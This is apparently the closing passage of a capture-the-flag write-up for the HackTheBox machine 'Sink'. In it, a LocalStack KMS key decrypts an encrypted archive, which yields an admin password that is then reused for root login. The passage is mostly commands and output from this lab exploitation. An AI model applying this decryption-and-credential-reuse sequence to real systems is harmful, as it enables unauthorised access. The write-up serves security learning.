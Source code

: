 4. After examining all of them, key number 6 with key-id `804125db-bdf1-465a-a058-07fc87c0fad0` will decrypt the file successfully\
So the final command for decryption is

```bash
david@sink:~/Projects/Prod_Deployment$ awslocal kms decrypt --key-id 804125db-bdf1-465a-a058-07fc87c0fad0 --encryption-algorithm RSAES_OAEP_SHA_256 --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --endpoint-url http://localhost:4566 | base64 --decode > file.dec
david@sink:~/Projects/Prod_Deployment$ file file.dec 
file.dec: gzip compressed data, from Unix, original size modulo 2^32 10240
david@sink:~/Projects/Prod_Deployment$ tar -xvf file.dec
servers.yml
servers.sig
david@sink:~/Projects/Prod_Deployment$ ls -la
total 24
drwxrwx--- 2 david david 4096 Sep 15 23:00 .
drwxr-x--- 3 david david 4096 Dec  2  2020 ..
-rw-rw-r-- 1 david david  440 Sep 15 22:59 file.dec
-rw-r----- 1 david david  512 Feb  1  2021 servers.enc
-rw-r--r-- 1 david david  137 Jan  4  2021 servers.sig
-rw-r--r-- 1 david david  139 Jan  4  2021 servers.yml
david@sink:~/Projects/Prod_Deployment$ cat servers.yml 
server:
  listenaddr: ""
  port: 80
  hosts:
    - certs.sink.htb
    - vault.sink.htb
defaultuser:
  name: admin
  pass: _uezduQ!EY5AHfe2
```

There we go we got a tar file which contains a `servers.yml` file which has admin's password
And booom we can log into the box with root user and password `_uezduQ!EY5AHfe2`. GG!

![root](./images/root.png)
